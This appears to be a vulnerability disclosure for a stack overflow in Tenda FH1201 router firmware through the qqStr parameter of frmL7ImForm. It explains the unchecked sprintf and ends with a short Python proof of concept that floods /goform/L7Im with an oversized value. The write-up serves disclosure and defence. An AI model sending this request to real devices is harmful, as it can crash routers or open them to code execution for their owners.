



# Tenda FH1201 frmL7ImForm_qqStr
### Overview
vendor: Tenda
product: FH1201
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the qqStr parameter in the frmL7ImForm function.
### Vulnerability details
In function frmL7ImForm line 16, it reads in a user-provided parameter `qqStr`, and the variable `s_2` is passed as a parameter to the `Saveqqlist` function. In `Saveqqlist` function, the variable `s_2` is assigned to the variable `s`, and the variable `s` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_1`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.




### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/L7Im"

data = {
    "qqStr": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```


